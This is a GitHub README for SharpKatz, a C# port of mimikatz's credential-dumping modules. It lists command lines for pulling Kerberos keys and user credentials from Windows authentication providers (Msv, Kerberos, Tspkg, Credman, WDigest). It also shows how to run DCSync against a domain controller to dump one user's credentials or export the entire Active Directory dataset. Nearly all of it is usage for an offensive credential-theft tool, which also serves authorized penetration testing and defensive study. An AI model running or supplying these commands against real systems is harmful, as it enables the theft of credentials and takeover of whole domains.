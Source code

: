 # SharpKatz
Porting of mimikatz sekurlsa::logonpasswords,  sekurlsa::ekeys and lsadump::dcsync

**Usage**

Ekeys

```SharpKatz.exe --Command ekeys```<br>
 list Kerberos encryption keys <br>
 <br>

Msv

```SharpKatz.exe --Command msv``` <br>
Retrive user credentials from Msv provider <br>
<br>

Kerberos

```SharpKatz.exe --Command kerberos```<br>
Retrive user credentials from Kerberos provider <br>
<br>

Tspkg

```SharpKatz.exe --Command tspkg```<br>
Retrive user credentials from Tspkg provider <br>
<br>

Credman

```SharpKatz.exe --Command credman```<br>
Retrive user credentials from Credman provider <br>
<br>

WDigest

```SharpKatz.exe --Command wdigest```<br>
Retrive user credentials from WDigest provider <br>
<br>

Logonpasswords

```SharpKatz.exe --Command logonpasswords```<br>
Retrive user credentials from all providers <br>
<br>

DCSync

```SharpKatz.exe --Command dcsync --User user --Domain userdomain --DomainController dc```<br>
Dump user credential by username <br>
<br>
```SharpKatz.exe --Command dcsync --Guid guid --Domain userdomain --DomainController dc```<br>
Dump user credential by GUID <br>
<br>
```SharpKatz.exe --Command dcsync --Domain userdomain --DomainController dc```<br>
Export the entire dataset from AD <br>
<br>
